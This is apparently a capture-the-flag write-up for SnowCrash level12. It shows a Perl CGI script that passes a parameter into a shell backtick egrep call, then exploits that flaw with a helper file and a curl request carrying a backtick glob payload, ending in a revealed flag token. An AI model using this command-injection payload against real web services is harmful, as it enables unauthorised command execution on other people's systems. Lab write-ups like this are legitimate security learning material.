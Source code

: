 level12@SnowCrash:~$ ls
level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));

this is a perl scrit thats running in localhost:4646

it uses CGI which allows it to extract the passed in parameters. the script takes in two parameters as variables x and y and passes them to the subroutine or function t, and the result is passed to function n which simply prints dots.
the t function turns all the characters in the first parameter to capital letters and also will delete anything after a space.
and then the string is passed to egrep which looks for a match in /tmp/xd and also evaluates  our string, and thatst he part we r gonna exploit, by giving it the  path of a file that contains getflag

level12@SnowCrash:~$ cat /tmp/OK
getflag > /tmp/ew

now lets use curl to make the request, 


level12@SnowCrash:~$ curl localhost:4646/?x='`/*/ok`'

level12@SnowCrash:~cat /tmp/ew
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr


